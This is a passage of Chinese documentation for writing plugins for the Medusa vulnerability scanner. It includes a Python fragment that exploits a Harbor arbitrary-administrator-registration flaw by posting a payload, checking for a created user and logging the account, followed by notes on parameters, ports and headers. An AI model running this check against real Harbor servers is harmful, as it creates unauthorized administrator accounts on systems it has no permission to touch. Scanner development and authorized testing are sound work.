 ```python
        resp = requests.post(payload_url,data=data,headers=Headers, proxies=proxies, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                          payload_url,
                                                                                                          rm,rm,head)
            _t = VulnerabilityInfo(Medusa)
			VulnerabilityDetails(_t.info, url,**kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:"+_+" || Target Url:"+url,e)  # 调用写入类传入URL和错误插件名
```

##### 参数

- ###### Url
  - 扫描器传入的链接

- ###### Headers
  - 扫描器默认标头或者代理截获的标头`Headers`

- ###### proxies=None
  - 扫描器的代理，默认是关闭的
  - 如果需要代理只需要传入参数即可
  
- ###### Token

  - 该参数在`3.4`插件模板中替换`UnixTimestamp`参数

##### 注意点:

- ###### 端口

  每个`url`都必须加上一个端口号，这样后续可以针对单个`URL`进行不同的端口服务的全量扫描

  ```python
  scheme + "://" + url + ":" + str(port) + payload
  ```

- ###### headers
  - 该参数会默认传入到插件中

  - 如果你的插件需要使用到某些特定的标识的时候，使用字典方式添加内容
  
    ```python
    Headers["Accept"]="application/json"
    Headers["Content-Type"]="application/json"
    ```

- ###### payload
